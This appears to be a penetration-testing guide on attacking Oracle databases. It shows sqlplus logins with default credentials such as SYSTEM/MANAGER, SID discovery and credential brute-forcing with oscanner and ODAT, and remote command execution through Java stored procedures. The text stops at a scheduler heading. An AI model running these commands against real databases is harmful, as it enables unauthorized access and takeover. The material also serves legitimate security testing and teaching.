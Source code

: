 To login using known credentials:

sqlplus <username>/<password>@<ip_address>/<SID>;

If the TNS Listener is on a non-default port (e.g. TCP/1522) :

sqlplus <username>/<password>@<ip_address>:<port>/<SID>;

If an account has system database priviledges (sysdba) or system operator (sysop) you may wish to try the following:

sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
#Example:
sqplus SYSTEM/MANAGER@192.168.0.2/ORCL 'as sysdba'

All in One

An interesting tool is oscanner, which will try to get some valid SID and then it will brute-force for valid credentials and try to extract some information:

#apt install oscanner
oscanner -s <IP> -P <PORT>

Another tool that will do all of this it odat:

git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py --help #It shouldn't be problems in Kali
./odat.py all -s <IP> -p <PORT>
./odat.py all -s <IP> -p <PORT> -d <SID> #To bruteforce accounts for that SID

With these options (-s and -p), ODAT will search valid SID (System ID) in a first step. You can configure some options for configuring methods (i.e. word-list or brute-force attack). By default, ODAT will use a big word list and it will do a small brute-force attack.

If ODAT founds at least one SID (e.g. ORCL), it will search valid Oracle accounts. It will do that on each SID found. You can specify some options for credentials (e.g. --accounts-file, --accounts-files, --login-as-pwd).

For each valid account (e.g. SYS) on each valid instance (SID), ODAT will return what each Oracle user can do (e.g. reverse shell, read files, become DBA).

​Wiki odat​
Remote Code Execution

There are at least two different ways to execute commands, such as by using Java procedures and DBMS_SCHEDULER package. By the way, you can also achieve RCE in case of SQL injection in a web application provided, of course, that the user running it has sufficient rights. At this stage, I highly recommend preparing the Oracle Database Attacking Tool: ODAT.
Install ODAT

git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py #It shouldn't be problems in Kali

Execute Code via Java Stored Procedure

./odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND

​More details here​
Execute code via Scheduler
